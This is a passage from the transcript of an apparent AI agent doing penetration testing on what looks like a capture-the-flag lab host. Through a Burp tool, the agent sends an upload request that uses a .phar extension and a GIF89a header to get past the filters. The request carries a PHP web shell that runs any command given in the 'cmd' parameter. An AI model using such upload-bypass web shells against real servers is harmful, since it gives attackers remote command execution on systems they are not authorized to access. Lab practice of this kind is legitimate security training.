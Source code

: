 <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.55 (Ubuntu) Server at 10.10.11.241 Port 8080</address>
</body></html>

<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:41:25 PM (America/New_York, UTC-4:00)

# Context Window Usage
47,606 / 200K tokens used (24%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The /dev directory doesn't exist either. Let's try a different approach. Let's try to exploit potential vulnerabilities in the upload functionality by trying different file extensions that might be executed as PHP but might not be blocked by the server.

Let's try with a .phar extension, which is a PHP archive format:
</thinking>

Let's try a different approach by testing various PHP-related file extensions that might bypass the server's filters. Let's try with a .phar extension, which is a PHP archive format.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 324\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"shell.phar\"\r\nContent-Type: image/jpeg\r\n\r\nGIF89a;\r\n<?php\r\nif(isset($_REQUEST['cmd'])){\r\n    echo \"<pre>\";\r\n    $cmd = ($_REQUEST['cmd']);\r\n    system($cmd);\r\n    echo \"</pre>\";\r\n}\r\n?>\r\n-----------------------------12345678901234567890123456789--",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>